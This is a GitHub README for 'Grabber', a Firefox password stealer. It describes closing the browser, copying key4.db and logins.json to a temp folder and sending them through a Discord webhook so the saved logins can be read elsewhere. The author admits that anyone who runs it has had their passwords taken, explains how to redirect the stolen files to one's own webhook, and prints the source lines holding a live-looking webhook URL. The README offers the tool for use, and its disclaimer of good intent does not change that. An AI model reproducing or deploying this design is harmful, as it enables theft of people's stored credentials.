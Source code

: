 # Grabber
This Program is for Copying and Sending Log-in Data to another person via Discord Webhook.
This program is currently in Alpha V1.1 by writing of this README.txt and can only be used per Firefox by this Point. 
This Program works by Making sure Firefox.exe is completly closed by Closing the Browser or Starting and again Closing the Browser for 100% verfication
that its closed. From that point it creates a Folder in %temp% where the "key4.db" and "logins.json" getting copied to on the local harddrive. 
From that point on i turned on an Discord-Webhook that automatically send those 2 files into an Private Text channel on my Discord Server. 
With those 2 Files i can copy them to my Local Appdata\Roaming\Mozilla\Profiles directory and view the Content (In this case Login Info) through Firefox´s 
intergrated Password Manager. 

I dont plan to use this Program for bad or stealing any informations but rather to try myself in coding after watching an Youtube video about an Password
stealer called named "Lumma". If you didnt read this README file, or even didnt existed in the file that you got send and just started to launch the Program.
Im sorry but your Passwords are now shared with another or Multiple People. The only way is to quickly change all your Information so they can do as little 
damage as possible. This program is simple written and should spread awareness to only use Password Manager Programs that are specifically made for Security.


If you just started the Program by installing it Fresh from github.com/SnawaHD/Grabber and want your Log-In Infos deleted you can contact me via my 
Discord Server that got only made for this Project: https://discord.gg/XqFtQ7CWC4

If you want to change the Discord-Webhook where the Files are getting send to you can make on easily by going into any Server you own > Settings > Intergration
> Webhook. Then you do one and copy the link and paste it into the code that is under the "Program.cs". Im recomending to open this Program in Visual Studios 
because i created it there. The Lines that are essential to redirect the files to your Webhook are easy to change and easy to identify. 
The Lines will look like this: 

string webhookLink = "https://discord.com/api/webhooks/1093683641068044378/KCPO4Q-xlX3zcMR25Ukt5L8LnVw_YwbsGFVLjZE142Pb3Is-7OM0eOYuR2QMWr1Lv0Go";
string Webhook_link = "https://discord.com/api/webhooks/1093683641068044378/KCPO4Q-xlX3zcMR25Ukt5L8LnVw_YwbsGFVLjZE142Pb3Is-7OM0eOYuR2QMWr1Lv0Go";

The lines are also very long in comparison to the other code and are both follow by another long line compared to the code.
After that just save the program and launch it. Your files are now in the folder named "AppData\Local\Temp\a74Bas57M\Profiles"

Enjoy!
